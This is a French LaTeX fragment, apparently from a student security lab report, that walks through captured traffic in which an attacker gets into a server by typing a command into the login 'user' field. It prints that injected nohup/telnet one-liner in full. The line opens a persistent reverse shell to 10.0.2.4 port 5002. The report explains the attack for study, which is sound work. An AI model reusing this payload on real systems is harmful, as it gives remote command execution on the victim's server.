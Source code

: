 \documentclass[11pt]{article}
\begin{document}
Le hacker reçoit une réponse positive de la part du serveur et peut ensuite tenter de s’identifier sur le serveur.  (\textsc{Figure \ref{fig:6}})
\vspace{2cm}
 \begin{figure}[h!]
        \centering \includegraphics[scale=1]{Exo3/7.png}
        \caption{}
         \label{fig:7}
\end{figure}

Pour se connecter il rentre une ligne de commande particulière à la place du champ « user ».  (\textsc{Figure \ref{fig:7}})
Cette ligne est \textit{/=`nohup sh -c '(sleep 4428|telnet 10.0.2.4 5002|while : ; do sh \&\& break; done 2>\&1|telnet 10.0.2.4 5002 >/dev/null 2>\&1 \&)'`}
Elle permet de lancer un processus qui restera actif même après la déconnexion de l’utilisateur. Ce processus émule un Shell à distance, c’est-à-dire qu’il demande au serveur linux d’ouvrir un Shell sur la machine du hacker. Ceci a pour but de pouvoir exécuter des commandes saisies au clavier sur une machine distante. De plus, le hacker redirige toutes les sorties (Out, Erreurs) vers /dev/null.
\vspace{2cm}
 \begin{figure}[h!]
        \centering \includegraphics[scale=0.8]{Exo3/8.png}
        \caption{}
         \label{fig:8}
\end{figure}

Par la suite la machine se rend compte que le login rentré n’est pas bon et envoie donc une erreur d’identification. Cependant, il est trop tard car le hacker peut déjà exécuter des commandes sur le serveur par le biais du Shell qu’il a ouvert. (\textsc{Figure \ref{fig:8}})

 \begin{figure}[h!]
        \centering \includegraphics[scale=1]{Exo3/9.png}
        \caption{}
         \label{fig:9}
\end{figure}

 \begin{figure}[h!]
        \centering \includegraphics[scale=1]{Exo3/10.png}
        \caption{}
         \label{fig:10}
\end{figure}
\end{document}
